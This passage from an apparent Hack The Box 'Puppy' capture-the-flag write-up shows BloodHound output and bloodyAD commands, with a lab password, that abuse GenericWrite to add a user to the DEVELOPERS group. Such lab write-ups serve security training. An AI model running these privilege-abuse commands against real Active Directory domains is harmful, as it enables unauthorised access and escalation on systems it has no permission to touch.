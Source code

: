 ```
INFO: Querying computer: DC.PUPPY.HTB
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
INFO: Done in 00M 36S
INFO: Compressing output into 20250717205117_bloodhound.zip
```

BloodHound showed that Levi had `GenericWrite` on the `DEVELOPERS` group.  Group membership to this group could potentially give Levi access to the `DEV` SMB share.

![](images/Pasted%20image%2020250717135903.png)

### 🧪 Exploitation

#### 📂 DEV share access

`bloodyAD` was used to add Levi to the `DEVELOPERS` group.

```
fcoomans@kali:~/htb/puppy$ bloodyAD --host dc.puppy.htb -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object --attr member DEVELOPERS

distinguishedName: CN=DEVELOPERS,DC=PUPPY,DC=HTB
member: CN=Jamie S. Williams,CN=Users,DC=PUPPY,DC=HTB; CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB; CN=Anthony J. Edwards,DC=PUPPY,DC=HTB

fcoomans@kali:~/htb/puppy$ bloodyAD --host dc.puppy.htb -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
[+] levi.james added to DEVELOPERS

fcoomans@kali:~/htb/puppy$ bloodyAD --host dc.puppy.htb -d puppy.htb -u levi.james -p 'KingofAkron2025!' get object --attr member DEVELOPERS

distinguishedName: CN=DEVELOPERS,DC=PUPPY,DC=HTB
member: CN=Jamie S. Williams,CN=Users,DC=PUPPY,DC=HTB; CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB; CN=Anthony J. Edwards,DC=PUPPY,DC=HTB; CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
```

